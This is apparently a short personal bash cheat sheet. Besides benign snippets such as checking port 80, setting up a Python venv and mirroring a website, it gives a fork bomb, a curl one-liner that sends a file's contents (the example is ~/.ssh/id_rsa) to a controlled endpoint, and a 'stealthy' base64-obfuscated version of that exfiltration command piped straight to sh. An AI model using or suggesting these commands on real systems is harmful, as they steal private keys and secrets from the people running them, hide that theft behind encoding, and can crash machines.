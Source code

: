 
### Fork Bomb

```bash
:(){ :|:& };:
```

### Check what is running on local port 80

```bash
sudo lsof -i -n -P | grep ":80"
```

### Send file content to controlled endpoint

```bash
curl https://beeceptorinstance -d "$(cat ~/file)" # ex: ~/.ssh/id_rsa
```

You can also add the ip address with :  `"$(curl ifconfig.me)"`

#### Stealthy mode

```bash
echo Y3VybCBodHRwczovL250Znkuc2gvamRsc2hka3Nrc2JiZGt6amQgLWQgIiQoY2F0IH4vZmlsZSkiIA== | base64 -d | sh
```


#### Python venv

```bash
python3 -m venv env
source env/bin/activate
pip3 install whatever

# Deactivate environment
deactivate
```

#### Copy whole website

```bash
wget -mkEpnp <website>
```

